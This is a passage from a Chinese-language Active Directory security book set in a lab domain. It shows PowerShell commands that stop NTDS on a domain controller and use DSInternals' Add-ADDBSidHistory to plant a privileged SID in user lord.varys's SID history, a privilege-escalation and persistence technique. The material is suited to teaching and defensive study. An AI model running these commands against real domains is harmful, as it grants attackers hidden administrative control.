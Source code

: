 图 7.15 – 通过 Mimikatz 添加 SID 历史时出现错误

直接在现代域控制器上添加 SID 历史的唯一已知方法在这里描述[5]。它涉及在域控制器上安装 DSInternals PowerShell 模块并重启 NTDS 服务：

```
Get-ADUser -Identity lord.varys -Properties sidhistory, memberof
Get-ADUser -Identity cersei.lannister -Properties sidhistory, memberof
Stop-service NTDS -Force
Add-ADDBSidHistory -samaccountname lord.varys -sidhistory S-1-5-21-4243769114-3325725031-2403382846-1111 -DBPath C:\Windows\ntds\ntds.dit -Force
Start-service NTDS
Get-ADUser -Identity lord.varys -Properties sidhistory, memberof
```

结果，用户 `lord.varys` 的 SID 历史中已添加了域管理员 SID，如下图所示：

![图 7.16 – SID 历史已添加到 lord.varys 用户](img/B18964_07_16.jpg)
